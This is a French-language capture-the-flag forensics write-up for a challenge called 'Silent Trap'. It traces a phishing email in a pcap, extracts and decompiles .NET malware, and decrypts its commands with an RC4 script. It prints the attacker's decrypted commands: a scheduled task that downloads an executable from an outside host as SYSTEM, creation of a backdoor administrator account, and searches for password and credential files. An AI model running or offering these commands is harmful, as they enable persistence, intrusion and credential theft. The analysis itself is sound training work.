 # Silent Trap
### A critical incident has occurred in Tales from Eldoria, trapping thousands of players in the virtual world with no way to log out. The cause has been traced back to Malakar, a mysterious entity that launched a sophisticated attack, taking control of the developers' and system administrators' computers. With key systems compromised, the game is unable to function properly, which is why players remain trapped in Eldoria. Now, you must investigate what happened and find a way to restore the system, freeing yourself from the game before it's too late.

Le challenge commence avec un fichier **pcap**, en l'éxaminant rapidement, c'est un échange de mail.

### Flag 1 : What is the subject of the first email that the victim opened and replied to ?

Le sujet de l'email peut être identifié sur le HTTP Stream 4 :   

![wireshark1](https://github.com/user-attachments/assets/4912275e-7eec-40b0-a9f0-e22b95711e61)

### Flag 2 : Question 2: On what date and time was the suspicious email sent ?

En continuant de chercher dans les HTTP Stream, on tombe là dessus sur le 8 :   

![wiresahrk2](https://github.com/user-attachments/assets/58814647-dba8-4678-ab40-14953ef00c81)
On y voit la date du mail, et l'envoi du fichier `Eldoria_Balance_Issue_Report.zip`.

### Flag 3 : What is the MD5 hash of the malware file ?

On repère alors le fameux ZIP envoyé : 

![wireshark3](https://github.com/user-attachments/assets/4aa0c099-ed5c-44cb-a8ef-7be54c912184)

On exporte alors ce fichier sur Wireshark, mais l'archive est protégé par un mot de passe (merci ):   

![zip mdp](https://github.com/user-attachments/assets/6042393e-d16d-499b-ac1f-21bc450eaa27)

On continue alors de fouiller un peu les mails, et on trouve l'échange de mails avec le mot de passe :   

![wireshark5](https://github.com/user-attachments/assets/6cd57513-f3cb-4efd-885f-eea85ca43dd5)

On peut donc avoir accès à l'archive zip et en extraire `Eldoria_Balance_Issue_Report.pdf.exe` après l'avoir clean-up avec :
```bash
dd if=Eldoria.zip of=clean2.zip bs=1 skip=1259
 ```
Puis on peut récupérer son hash md5 :   
 
![extraire](https://github.com/user-attachments/assets/75a48aab-0a4a-447f-8207-8f3363ba4ca4)
![md5](https://github.com/user-attachments/assets/ea3af082-033e-45f6-8b8b-b4d998318001)

### Flag 4 :  What credentials were used to log into the attacker’s mailbox ?

Donc maintenant, nous avons accès au malware qui est un `.NET executable`. On le désassemble grâce à **dotPeek**. 

Dans la premère fonction visible, on peut directement y trouver les identifiants, aussi visibles dans les trames wireshark.  

![creds](https://github.com/user-attachments/assets/dfee5cd9-c035-4a07-a0bb-955f2eec7db1)

### Flag 5 :  What is the name of the task scheduled by the attacker ?

Maintenant il nous faut comprendre comment l'encryption marche, pour pouvoir décrypter le reste des trames de la capture Wireshark. Ici on peut comprendre un peu plus ce qu'il ce passe :   

![fonctionnement file](https://github.com/user-attachments/assets/8da47bde-ce7e-4e6c-a684-5a7a6074b9cd)

Le malware essaye de se connecter à un serveur mail, pour ensuite y éxécuter des commandes CMD encodés en XOR et base64, probablement pour en extraire des fichiers à ce que montre les trames Wireshark.
En fouillant encore un peu, on trouve alors le fonctionnement de l'encryption, et on trouve la clé XOR, qui elle même est encrypté avec RC4.

Au passage, merci à @Kaddate pour m'aider à comprendre parfaitement tout ce qu'il ce passait dans ce programme :D

 ![xor key](https://github.com/user-attachments/assets/44b4dc62-28bc-4990-b582-8b9678c99c4b)
 ![exor](https://github.com/user-attachments/assets/0615f2a4-9ca1-4bc6-bc6f-7cd46b8ce7bc)

Maintenant qu'on à toutes ces informations, on peut décrypter les commandes CMD que l'attaquant éxécute sur le serveur en extrayant toutes les trames IMF après un FETCH de l'attaquant :   

![ttt](https://github.com/user-attachments/assets/76911b01-abf9-4dfd-bf26-fc4e65f835b3)

Puis, avec ce code : 
```python
import base64

def rc4(key, data):
    S = list(range(256))
    j = 0
    out = bytearray()

    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]

    i = j = 0
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        out.append(byte ^ S[(S[i] + S[j]) % 256])

    return bytes(out)

b64_data = """<data>"""
key = bytes([<xor_key>]) 

data = base64.b64decode(b64_data)
decrypted = rc4(key, data)

print(decrypted.decode(errors="ignore"))
```
(Merci beaucoup à @n0rozapy pour l'aide sur ce script)

On peut désormais décrypter toutes les commandes que l'attaquant envoi, on obtient alors : 
```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn

schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM

net user devsupport1 P@ssw0rd /add
net localgroup Administrators devsupport1 /add
reg query HKLM /f "password" /t REG_SZ /s
dir C:\ /s /b | findstr "password"

more "C:\Users\dev-support\AppData\Local\BraveSoftware\Brave-Browser\User Data\ZxcvbnData\3\passwords.txt"
more C:\backups\credentials.txt
whoami /priv
tasklist /v
```
Le nom de la tâche éxéctuée est **Synchronization**.

### Flag What is the API key leaked from the highly valuable file discovered by the attacker ?
On voit ici que l'attaquant fouille le fichier `credentials.txt`, on voit clairement sur Wireshark la réponse du serveur, donc le fichier en question :   

![api key](https://github.com/user-attachments/assets/88b839db-e126-4565-a11b-261f94ca1e84)

On exporte tout ça, puis on le passe dans le même script python que pour les commandes CMD. Ce qui nous donne :   

![api key finale](https://github.com/user-attachments/assets/47c51d14-206e-45da-a107-79f1f823d73b)

Et voilà, 6 flags sur 6. 
